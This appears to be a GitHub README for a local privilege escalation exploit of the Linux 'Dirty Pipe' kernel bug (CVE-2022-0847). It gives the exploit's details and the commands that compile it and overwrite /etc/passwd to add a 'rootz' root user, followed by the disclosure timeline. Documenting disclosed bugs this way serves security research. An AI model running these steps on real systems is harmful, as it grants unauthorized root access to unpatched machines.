 ### Information

```c
Exploit Title: Local Privilege Escalation in Linux kernel (CVE-2022-0847)
Date: 03/07/2022
Exploit Author: Max Kellermann <max.kellermann@ionos.com>
Tested on: ubuntu 20.04.1 LTS
Affect product:Linux kernel 5.8 or later
Fixed Product:Linux kernel 5.16.11, 5.15.25, 5.10.102
CVE ID: CVE-2022-0847
```

### How to Exploit

Test Environment：

![env](img/env.png)

Local Privilege Escalation

```
cp /etc/passwd /tmp/passwd.bak
gcc exp.c -o exp
./exp /etc/passwd 1 ootz:
su rootz
id
```

![exp](img/exp.png)

### Reference

https://dirtypipe.cm4all.com/

### Timeline

- 2021-04-29: first support ticket about file corruption
- 2022-02-19: file corruption problem identified as Linux kernel bug, which turned out to be an exploitable vulnerability
- 2022-02-20: bug report, exploit and patch sent to the [Linux kernel security team](https://www.kernel.org/doc/html/latest/admin-guide/security-bugs.html)
- 2022-02-21: bug reproduced on Google Pixel 6; bug report sent to the Android Security Team
- 2022-02-21: [patch sent to LKML (without vulnerability details)](https://lore.kernel.org/lkml/20220221100313.1504449-1-max.kellermann@ionos.com/) as suggested by Linus Torvalds, Willy Tarreau and Al Viro
- 2022-02-23: Linux stable releases with my bug fix ([5.16.11](https://lore.kernel.org/stable/1645618039140207@kroah.com/), [5.15.25](https://lore.kernel.org/stable/164561803311588@kroah.com/), [5.10.102](https://lore.kernel.org/stable/164561802556115@kroah.com/))
- 2022-02-24: [Google merges my bug fix into the Android kernel](https://android-review.googlesource.com/c/kernel/common/+/1998671)
- 2022-02-28: notified the [linux-distros](https://oss-security.openwall.org/wiki/mailing-lists/distros#how-to-use-the-lists) mailing list
- 2022-03-07: public disclosure



